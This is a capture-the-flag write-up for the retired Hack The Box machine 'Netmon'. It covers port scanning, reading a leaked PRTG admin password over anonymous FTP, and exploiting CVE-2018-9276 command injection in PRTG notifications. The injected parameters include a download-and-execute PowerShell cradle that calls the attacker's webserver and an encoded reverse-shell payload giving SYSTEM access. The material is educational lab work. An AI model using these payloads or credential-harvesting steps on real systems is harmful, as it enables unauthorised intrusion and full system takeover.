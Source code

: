 # Netmon

This is the write-up for the box Netmon that got retired at the 29th June 2019. 
My IP address was 10.10.13.112 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.152    netmon.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/netmon.nmap 10.10.10.152
```

```markdown
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_07-02-19  12:39PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## Checking FTP (Port 21)

The Nmap scan shows us that we have access to the C: drives root folders on the box with anonymous login on FTP. 
If we check the internet for **Windows LFI files** we get a list of important files that we can analyze in the Windows folder.

Some important files would be:
- C:\Windows\php.ini
- C:\Windows\repair\*
- C:\Windows\System32\drivers\etc\hosts
- C:\Windows\Panther\unattended.xml
- C:\Windows\System32\config\*

These are some files you would use to get more information but on this box but in our case they don't help much.
We can download **C:\Users\Public\Desktop\user.txt** to get the first flag.

As the Nmap script told us the service on HTTP is PRTG Network Monitor, we can look for configuration files for that. These files are in the  directory_ProgramData\Paessler\PRTG Network Monitor_.
If we check the files there we see there are the files **PRTG Configuration.dat** and **PRTG Configuration.old.bak**.
The first one is a default configuration file but the .old.bak is different. 

It contains a username and a password:
> prtgadmin:PrTg@dmin2018


## Checking HTTP (Port 80)

The webpage is the monitoring system **PRTG Network Monitor** in the version 18.1.37 and logging in with default credentials and the gathered credentials does not work.

As the file is from 2019 lets increment the year by one so the password looks like this:
> PrTg@dmin2019

And we are logged in as the user prtgadmin.

### Exploiting PRTG

After searching for exploits we find **CVE-2018-9276** that exploits and OS command injection vulnerability by sending malformed parameters in sensor or notification management scenarios.

We can setup notifications on _Setup_ --> _Notifications_. Clicking on one the notifications and then _Settings_ there is an option to **Execute Program**.

```markdown
Demo exe notification - outfile.ps1

Parameter:
test | ping -n 1 10.10.13.112
```

Listening on ICMP packets with tcpdump and then sending the test notification, we will get a ping response. This validates that we have command execution and the next step is a reverse shell.

We will use the reverse shell the from Nishang _Invoke-PowerShellTcp.ps1_ that I upload on a webserver as _shell.ps1_.

Start webserver and listen on port 80:
```markdown
python -m SimpleHTTPServer
nc -lvnp 80
```

On PRTG we want to execute this command to download the file and execute it:
```markdown
test | IEX(New-Object Net.WebClient).downloadString("http://10.10.13.112:8000/shell.ps1")
```

Unfortunaly this does not give us a shell. So we will eliminate bad characters by Base64 encoding the shell:
```markdown
cat shell.ps1 | iconv -t UTF-16LE | base64 -w0
```

Copy the long Base64 string and input it into the parameter and send the notification again:
```markdown
test | powershell -enc [base64 shell.ps1]
```

This time we get a reverse shell as _NT Authority\SySTEM_ and can read root.txt!
